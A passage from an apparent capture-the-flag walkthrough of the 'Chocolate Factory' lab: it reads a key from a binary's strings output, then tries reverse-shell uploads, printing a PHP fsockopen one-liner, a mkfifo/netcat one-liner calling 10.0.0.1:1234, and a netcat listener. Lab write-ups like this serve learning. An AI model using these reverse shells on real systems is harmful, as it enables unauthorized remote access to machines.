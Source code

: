 
### Let try to strings to read it 
![Screenshot from 2024-04-22 11-43-30](https://github.com/Esther7171/ChocolateFactory/assets/122229257/2949e129-9133-48ad-a588-3c067bca3d9a)


```bash

/lib64/ld-linux-x86-64.so.2 libc.so.6 __isoc99_scanf puts __stack_chk_fail printf __cxa_finalize strcmp __libc_start_main GLIBC_2.7 GLIBC_2.4 GLIBC_2.2.5 _ITM_deregisterTMCloneTable __gmon_start__ _ITM_registerTMCloneTable 5j %l %j %b %Z %R %J %b =9 AWAVI AUATL []A\A]A^A_ Enter your name: laksdhfas congratulations you have found the key: b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=' Keep its safe Bad name! ;*3$" GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0 crtstuff.c deregister_tm_clones __do_global_dtors_aux completed.7698 __do_global_dtors_aux_fini_array_entry frame_dummy __frame_dummy_init_array_entry license.c __FRAME_END__ __init_array_end _DYNAMIC __init_array_start __GNU_EH_FRAME_HDR _GLOBAL_OFFSET_TABLE_ __libc_csu_fini _ITM_deregisterTMCloneTable puts@@GLIBC_2.2.5 _edata __stack_chk_fail@@GLIBC_2.4 printf@@GLIBC_2.2.5 __libc_start_main@@GLIBC_2.2.5 __data_start strcmp@@GLIBC_2.2.5 __gmon_start__ __dso_handle _IO_stdin_used __libc_csu_init __bss_start main __isoc99_scanf@@GLIBC_2.7 __TMC_END__ _ITM_registerTMCloneTable __cxa_finalize@@GLIBC_2.2.5 .symtab .strtab .shstrtab .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rela.dyn .rela.plt .init .plt.got .text .fini .rodata .eh_frame_hdr .eh_frame .init_array .fini_array .dynamic .data .bss .comment 
```
### here is key in 2 line
```bash
'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```
### Its a base 64 let try to convert it
### No it not as bas64 but look like..

### We got key , Let try to upload a reverse-shell here, so it in php formate let try php shell

## 5. Let uploads
```here are all the reverse-shell```
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
### I'm taking this one 
```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
### let open netcat listner and change IP in reverse shell

```bash
┌──(death㉿esther)-[~/Lab-CTF/Choclaate_Factory]
└─$ nc -nlvp 1234
```
listening on [any] 1234 ...

### I'm not getting any connection mean that wrong let try to upload a netcat reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
### Let try this one, change IP, Let upload it 
![Screenshot from 2024-04-22 11-35-41](https://github.com/Esther7171/ChocolateFactory/assets/122229257/bd40e4d9-6a13-4f25-aada-ff7a9b1cce31)
